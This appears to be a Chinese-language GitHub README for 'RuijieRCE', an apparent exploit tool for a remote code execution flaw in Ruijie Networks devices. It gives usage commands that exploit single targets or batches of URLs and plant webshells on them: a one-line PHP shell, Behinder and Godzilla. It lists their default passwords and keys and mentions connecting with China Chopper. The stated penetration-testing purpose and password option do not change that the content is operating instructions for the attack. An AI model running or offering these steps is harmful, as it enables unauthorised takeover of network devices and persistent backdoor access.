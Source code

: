 # RuijieRCE
#Tools
Ruijie Networks RCE漏洞检测工具，为方便渗透测试使用，可以批量检测，也会生成历史记录。同时也为防止他人恶意使用，可自定义GET参数密码，该密码由sha256加密，难以破解。同时也可以上传冰蝎马或者哥斯拉马。



## 参数
```bash
Usage of ./RuijieRCE:
  -f string
    	导入.txt文件批量扫描
  -k string
    	写入shell密钥，一句话马默认为cmd，哥斯拉马默认为key，冰蝎马没有密钥
  -n string
    	写入shell默认一句话马🐎，B冰蝎马，G哥斯拉马
  -p string
    	写入shell密码，一句话马默认为cmd，哥斯拉马默认为pass，冰蝎马默认为rebeyond
  -u string
    	目标URL
```

## 使用
检测到漏洞后生成随机数.php文件执行命令，也可以上菜刀。
![](./cknife.png)

### 上传一句话木马
GET密码：cmd
POST密码：cmd
```bash
./RuijieRCE -u http://127.0.0.1:4430
```

#### 设置密码
-n参数为POST密码，-p参数为GET密码
这两个参数缺省时均为cmd，可以只设置一个或者同时都设置
```bash
./RuijieRCE -u http://127.0.0.1:4430 -n asd -p zxc
```

### 上传冰蝎马
默认密钥为rebeyond，也可以使用-p参数修改
```
./RuijieRCE -u http://127.0.0.1:4430 -n B -p rebeyond
```

### 上传哥斯拉马
哥斯拉加密器使用BASE64，默认密码为pass，密钥为key
```
./RuijieRCE -u http://127.0.0.1:4430 -n G -p pass -k key
```

### 批量测试
批量测试时也可以设置上传冰蝎马、哥斯拉马以及自定义密码
```bash
./RuijieRCE -f url.txt
```
